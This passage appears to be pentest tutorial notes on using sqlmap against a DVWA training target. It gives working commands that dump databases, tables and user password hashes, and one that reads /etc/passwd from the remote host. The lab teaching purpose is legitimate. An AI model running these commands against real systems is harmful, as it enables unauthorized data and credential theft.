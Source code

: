 #### Dumping a Database

```
sqlmap -u "https://dvwa.prod.org/vulnerabilities/sqli/?id=1&Submit=Submit" -D sqli --dump
```

* However, say we want the tables out of the `sqli` database

```
sqlmap -u "https://dvwa.prod.org/vulnerabilities/sqli/?id=1&Submit=Submit" --cookie="COOKIE VALUE" -D sqli --tables
```

* Output should look something like this:

<figure><img src="../.gitbook/assets/image (11).png" alt=""><figcaption></figcaption></figure>

#### Dumping a Table

* To dump a particular table from a database&#x20;

```
sqlmap -u "https://dvwa.prod.org/vulnerabilities/sqli/?id=1&Submit=Submit" -D sqli -T Users --dump
```

####

#### File Read with SqlMap

* To read a file on the remote system:

```
sqlmap -u "https://dvwa.prod.org/vulnerabilities/sqli/?id=1&Submit=Submit" --batch --file-read /etc/passwd
```

* If successful, simply cat out the file stored now on your local system

<figure><img src="../.gitbook/assets/image (2) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

#### User Password Dump

* Sqlmap will automate the process of looking for users and passwords, across multiple databases

```
sqlmap -u "http://dvwa.prod.org/vulnerabilities/sqli/?id=1&Submit=Submit"  --users --passwords
```

#### Using a Proxy with Sqlmap

* Burp and Zap can both be used as a proxy for sqlmap requests
* Set your foxy proxy or other extension to use zap to proxy requests
* Start zap (should go without saying)
